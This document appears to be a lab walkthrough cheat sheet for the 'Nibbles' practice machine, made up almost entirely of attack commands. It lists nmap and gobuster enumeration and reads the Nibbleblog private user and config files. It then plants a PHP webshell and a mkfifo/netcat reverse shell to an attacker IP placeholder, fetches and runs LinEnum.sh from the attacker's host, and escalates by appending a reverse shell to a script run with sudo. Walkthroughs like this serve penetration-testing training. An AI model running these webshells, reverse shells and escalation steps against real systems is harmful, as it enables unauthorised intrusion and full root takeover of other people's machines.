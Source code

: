 # Enumeration
###### **NMAP**
```nmap
nmap -sV --open -oA nibbles_initial_scan <TARGET-IP>
```

```nmap
nmap -sC -p 22,80 -oA nibbles_script_scan <TARGET-IP>
```

```nmap
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum <TARGET-IP>
```
###### **BANNER GRABBING**
```nmap
nc -nv <TARGET-IP> <PORT>
```
# Web Footprinting
## whatweb
```bash
whatweb <TARGET-IP>/nibbleblog
```
## Directory Enumeration
```bash
gobuster dir -u http://<TARGET-IP>/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```

```bash
curl http://10.129.42.190/nibbleblog/README
```

```bash
curl -s http://10.129.42.190/nibbleblog/content/private/users.xml | xmllint  --format -
```

```bash
curl -s http://10.129.42.190/nibbleblog/content/private/config.xml | xmllint --format -
```
# Initial Foothold
###### Webshell
```php
<?php system('id'); ?>
```
###### Test Webshell
```shell
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
```
###### PHP Script
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <OUR IP> <LISTENING PORT) >/tmp/f
```

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <OUR-IP> <PORT> >/tmp/f"); ?>
```
###### Netcat
```shell
nc -lvnp <PORT>
```
###### Upgrade Shell
```shell
which python3 or which python2 or which python
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
# Privilege Escalation
```shell
unzip personal.zip
```

```shell
cat monitor.sh
```
###### Main Terminal
[LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
```shell
sudo python3 -m http.server <PORT>
```
###### New netcat
```shell
nc -lvnp <PORT>
```
###### Target Terminal
```bash
wget http://<OUR IP>:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

```shell
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <OUR IP> <PORT> >/tmp/f' | tee -a monitor.sh
```

```shell
sudo /home/nibbler/personal/stuff/monitor.sh 
```



